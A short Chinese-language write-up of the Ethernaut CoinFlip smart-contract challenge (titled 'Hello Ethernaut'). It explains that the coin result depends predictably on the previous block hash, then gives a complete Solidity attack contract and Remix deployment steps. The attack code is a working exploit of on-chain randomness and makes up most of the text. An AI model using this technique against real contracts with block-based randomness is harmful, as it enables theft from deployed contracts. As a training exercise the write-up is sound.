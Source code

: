 # 0 - Hello Ethernaut writeup

## 题目
[CoinFlip](https://ethernaut.openzeppelin.com)

## 笔记
源程序中设计了通过不同的区块号决定的不同值得出随机的硬币状态，但漏洞是如果我以一个合约去调用给出合约，那么第一个合约中查询到的区块序号便是
题目合约用到的区块序号，那么就有了如下破解合约：
```
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.0;
    import "./CoinFlip.sol";

    contract hack_CoinFlip {
        uint256 lastHash;
        uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    CoinFlip coinFlipInstance;
        constructor(address coinflip_address) {
            coinFlipInstance = CoinFlip(coinflip_address);
        }

        function hack_flip() public  {
            uint256 blockValue = uint256(blockhash(block.number - 1));

            if (lastHash == blockValue) {
                revert();
            }

            lastHash = blockValue;
            uint256 coinFlip = blockValue / FACTOR;
            bool side = coinFlip == 1 ? true : false;
            coinFlipInstance.flip(side);
        }
    }
```

通过 remix 部署上述合约，在部署时填入题目合约的地址即可成功部署，随后调用破解合约 10 次便成功完成破解